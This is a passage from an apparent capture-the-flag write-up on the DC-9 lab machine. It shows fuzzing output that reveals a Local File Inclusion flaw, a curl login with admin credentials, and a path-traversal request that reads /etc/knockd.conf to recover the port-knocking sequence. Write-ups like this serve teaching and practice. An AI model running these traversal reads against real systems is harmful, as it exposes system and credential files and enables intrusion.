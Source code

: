 A moment after running the script, it can be seen that in the **file** parameter the size of the server's response is different.

```console
root@kali:~$ python3 lfi.py
id                  => 1341
...
file                => 3694
...
code                => 1341
```

I proceed to verify and you can see that the content of the passwd file is displayed on the web application, this means that exist a Local File Inclusion vulnerability.

![](/assets/images/DC-9/screenshot-14.png)

If we remember the port 22 is filtered, something is blocking the incoming traffic to that port, in certain cases a mechanism known as **Port knocking** is usually implemented as a security mechanism that allows open a port by attempting to connect to a series of ports closed. After googling I find that the configuration file is in **/etc/knokd.conf** and we try to see the content of this file, for this I have used curl as shown below:

```console
root@kali:~$ curl -s -L -X POST "http://192.168.179.128/manage.php" -c cookiefile --data "username=admin&password=transorbital1"
root@kali:~$ curl -s "http://192.168.179.128/manage.php?file=../../../../../../etc/knockd.conf" -b cookiefile | grep -vP '[>]\B' | sed "s/^\s.*[>]//g; 1,9d"
        UseSyslog

[openSSH]
        sequence    = 7469,8475,9842
        seq_timeout = 25
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
```